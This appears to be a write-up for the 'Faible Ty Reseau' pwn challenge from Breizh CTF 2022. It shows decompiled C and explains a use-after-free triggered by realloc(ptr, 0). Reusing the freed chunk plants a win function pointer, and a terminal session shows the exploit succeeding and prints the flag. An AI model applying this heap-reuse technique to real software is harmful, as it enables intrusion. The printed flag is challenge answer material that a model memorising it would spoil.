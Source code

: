 ```yaml
---
createdAt: 2022-03-04                                                                       
title: "[Breizh CTF 2022 - pwn] Faible Ty Reseau"
type: 'Writeups'
tags: ["pwn"]
---
```


Faible Ty Réseau is a basic heap-like challenge, it allows us to create a configuration, edit it, call a function pointer on it and finally to free it:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  while ( 1 )
  {
    puts(aVousN);
    printf(a1ModifierLesPa, argv);
    fflush(stdout);
    v4 = 0;
    argv = &v4;
    __isoc99_scanf(&unk_21F3, &v4);
    switch ( v4 )
    {
      case 0:
        printf("wtf ?");
        fflush(stdout);
        break;
      case 1:
        create();
        break;
      case 2:
        delete();
        break;
      case 3:
        exec();
        break;
      case 4:
        show();
        break;
      case 5:
        exit(0);
      default:
        continue;
    }
  }
}
```

They are many ways to pwn the challenge, I did it by taking advantage of the UAF in `create`:
```c
__int64 create()
{
  int v1; // [rsp+4h] [rbp-1Ch]
  int v2; // [rsp+8h] [rbp-18h]
  void *buf; // [rsp+10h] [rbp-10h]
  void *v4; // [rsp+18h] [rbp-8h]

  if ( !ptr )
  {
    ptr = malloc(0x18uLL);
    byte_4104 = 1;
  }
  buf = calloc(0x19uLL, 1uLL);
  write(1, "New hostname : ", 0x10uLL);
  v1 = read(1, buf, 0x18uLL);
  *(buf + v1) = 0;
  v4 = calloc(0x19uLL, 1uLL);
  printf("\nNew host : ");
  fflush(stdout);
  v2 = read(1, v4, 0x18uLL);
  *(v4 + v2) = 0;
  fflush(stdout);
  if ( byte_4104 != 1 )
  {
    fflush(stdout);
    realloc(ptr, v1 + v2 - 2);
    *ptr = buf;
    *(ptr + 1) = v4;
    *(ptr + 2) = sub_1259;
  }
  byte_4104 = 0;
  *ptr = buf;
  *(ptr + 1) = v4;
  *(ptr + 2) = sub_1259;
  fflush(stdout);
  alloc_admin();
  return 0LL;
}
```

As we can see, if ptr is not `NULL` and that we enter only one byte for each read (by sending only \n for example), then we will trigger a `realloc(ptr, 1 + 1 - 2)` which frees `ptr`, `ptr` being freed the freelist is pointing on `ptr`. Now let's take a look at the `alloc_admin` function:
```c
__int64 alloc_admin()
{
  char *v1; // [rsp+0h] [rbp-10h]
  char *v2; // [rsp+8h] [rbp-8h]

  fflush(stdout);
  qword_40F8 = malloc(0x18uLL);
  fflush(stdout);
  v1 = malloc(0xAuLL);
  fflush(stdout);
  strcpy(v1, "Admin");
  fflush(stdout);
  v2 = malloc(0xAuLL);
  fflush(stdout);
  strcpy(v2, "000000000");
  fflush(stdout);
  *qword_40F8 = v1;
  *(qword_40F8 + 8) = v2;
  *(qword_40F8 + 16) = win;
  fflush(stdout);
  return 0LL;
}
```

By allocating `0x18` bytes, it gets the previous freed `ptr` and writes over a few fields like the function pointer. Then we just have to call the `exec` function which will call the win function:
```c
int exec()
{
  if ( ptr )
    return (*(ptr + 2))();
  printf("Pas de configuration !");
  return fflush(stdout);
}
```

Which gives us:
```
nasm@off:~/ctf/bzhCTF/pwn$ ./FTM
Vous n'êtes pas connecté (anonyme)
1. Modifier les paramètres de connexion
2. Restaurer la configutation d'usine
3. Tester la configuration
4. Voir la configuration courante
5. Quitter (au revoir !)
>>>> 1
New hostname : dumb

New host : dumb
Vous n'êtes pas connecté (anonyme)
1. Modifier les paramètres de connexion
2. Restaurer la configutation d'usine
3. Tester la configuration
4. Voir la configuration courante
5. Quitter (au revoir !)
>>>> 1
New hostname : 

New host : 
Vous n'êtes pas connecté (anonyme)
1. Modifier les paramètres de connexion
2. Restaurer la configutation d'usine
3. Tester la configuration
4. Voir la configuration courante
5. Quitter (au revoir !)
>>>> 3
BZHCTF{9024b719d4449bc9827478e50f0279427ccb542cc3ecdec21fce38c52b29561c}
```
